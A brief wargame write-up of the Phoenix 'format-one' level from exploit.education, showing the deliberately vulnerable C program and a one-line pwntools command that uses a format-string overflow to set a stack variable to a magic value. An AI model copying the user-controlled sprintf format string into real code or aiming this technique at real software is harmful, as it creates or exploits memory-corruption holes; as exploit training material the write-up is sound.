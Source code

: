 Even more format string fun!

### Source code

```c
/*
 * phoenix/format-one, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * Why did the Tomato blush? It saw the salad dressing!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```

Looks like this one wants changeme to be a specific value: `0x45764f6c`

Lets see what we can do:

dest is 32 bytes long, so we can fill that up, and then have the value of 0x..6c in there.

%32x will pad the number to 32 chars, which fills the buffer nicely. Again, i use  pwntools to pack the address for me:

```bash
python3 -c "import sys; from pwn import *; buf = b'%32x';buf+=p64(0x45764f6c);sys.stdout.buffer.write(buf)" | ./format-one
```

![](_attachments/Pasted%20image%2020230402122022.png)
